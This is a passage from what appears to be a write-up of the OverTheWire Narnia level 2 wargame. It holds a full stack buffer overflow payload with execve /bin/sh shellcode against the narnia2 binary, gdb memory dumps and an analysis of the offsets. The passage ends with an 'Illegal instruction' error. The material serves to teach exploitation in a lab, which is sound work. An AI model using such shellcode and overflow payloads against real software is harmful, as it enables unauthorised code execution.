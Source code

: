0xd4y
{% endhighlight %}

Seeing as the program successfully executed the shellcode, we can now try this same payload ( with the modification of the return address) on the target machine.

#### Exploiting the Binary on the Target

After logging into the narnia2 user and running the same payload within gdb we see the following\:

{% highlight bash %}
narnia2@narnia\:/narnia$ gdb ./narnia2 -q                                                                                                                             [37/634]  
Reading symbols from ./narnia2...(no debugging symbols found)...done.  
(gdb) r $(python -c "print 'A'*132 +'\\x98\\xcf\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80'")            
Starting program\: /narnia/narnia2 $(python -c "print 'A'*132 +'\\x98\\xcf\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0  
\\x0b\\xcd\\x80'")  
  
Program received signal SIGSEGV, Segmentation fault.  
0xffffcf98 in ?? ()  
(gdb) x/100x $esp-200  
0xffffd448\:     0xf7e53f7b      0x00000000      0x00000002      0xf7fc5000  
0xffffd458\:     0xffffd508      0xf7e5b7f6      0xf7fc5d60      0x08048534  
0xffffd468\:     0xffffd488      0xf7e5b7d0      0xffffd488      0xf7ffd920  
0xffffd478\:     0xf7e5b7d5      0x08048494      0x08048534      0xffffd488  
0xffffd488\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd498\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4a8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4b8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4c8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4d8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4e8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4f8\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd508\:     0x41414141      0xffffcf98      0x90909090      0x90909090  
0xffffd518\:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd528\:     0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffd538\:     0x896e6962      0x895350e3      0xcd0bb0e1      0xfe790080  
0xffffd548\:     0xc497b545      0x00000000      0x00000000      0x00000000
{% endhighlight %}

Here we can see that the junk bytes end at 0xffffd508 and the EIP register is overwritten at 0xffffd50C. The nop sled then begins at 0xffffd510 and the shellcode starts at 0xffffd52c. Therefore, we can modify the payload to point to 0xffffd518 which is within the bounds of the NOP sled and the shellcode will get executed.

{% highlight bash %}
narnia2@narnia\:/narnia$ ./narnia2 $(python -c "print 'A'*132 +'\\x18\\xd5\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0  
\\x0b\\xcd\\x80'")  
Illegal instruction
{% endhighlight %}
